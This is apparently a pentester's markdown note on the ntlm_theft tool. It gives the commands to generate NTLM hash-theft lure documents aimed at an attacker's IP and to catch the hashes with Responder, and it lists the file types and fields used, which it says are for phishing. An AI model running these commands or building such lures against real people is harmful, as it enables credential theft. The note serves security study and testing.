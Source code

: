 
## Commands

Top Command
```
python3 ntlm_theft.py -g all -s 127.0.0.1 -f DOCUMENT-NAME
```

- -g all            ---> Mean to generate all the type of extension
- -s IP             ---> Your IP
- -f                  ---> The name of the document


Take note that you need to lunch responder to catch the response
```
sudo responder -I <interface>
```

- -I                    ---> Interface your using

## What is NTLM Theft

NTLM_Theft is an Open Source Python3 Tool that generates 21 different types of hash theft documents. These can be used for phishing when either the target allows smb traffic outside their network, or if you are already inside the internal network.

More in dept, NTLM file ask where can it find the folder icon. This Folder icon folder is saying you can find it on our host, we can then capture the NTLM!

![[Pasted image 20221227221049.png]]


ntlm_theft supports the following attack types:

-   Browse to Folder Containing
    -   .url – via URL field
    -   .url – via ICONFILE field
    -   .lnk - via icon_location field
    -   .scf – via ICONFILE field (Not Working on Latest Windows)
    -   autorun.inf via OPEN field (Not Working on Latest Windows)
    -   desktop.ini - via IconResource field (Not Working on Latest Windows)
-   Open Document
    -   .xml – via Microsoft Word external stylesheet
    -   .xml – via Microsoft Word includepicture field
    -   .htm – via Chrome & IE & Edge img src (only if opened locally, not hosted)
    -   .docx – via Microsoft Word includepicture field
    -   .docx – via Microsoft Word external template
    -   .docx – via Microsoft Word frameset webSettings
    -   .xlsx - via Microsoft Excel external cell
    -   .wax - via Windows Media Player playlist (Better, primary open)
    -   .asx – via Windows Media Player playlist (Better, primary open)
    -   .m3u – via Windows Media Player playlist (Worse, Win10 opens first in Groovy)
    -   .jnlp – via Java external jar
    -   .application – via any Browser (Must be served via a browser downloaded or won’t run)
-   Open Document and Accept Popup
    -   .pdf – via Adobe Acrobat Reader
-   Click Link in Chat Program
    -   .txt – formatted link to paste into Zoom chat



## More Information

More information ---> https://github.com/Greenwolf/ntlm_theft

<iframe src="https://github.com/Greenwolf/ntlm_theft" width="100%" height="1300"></iframe>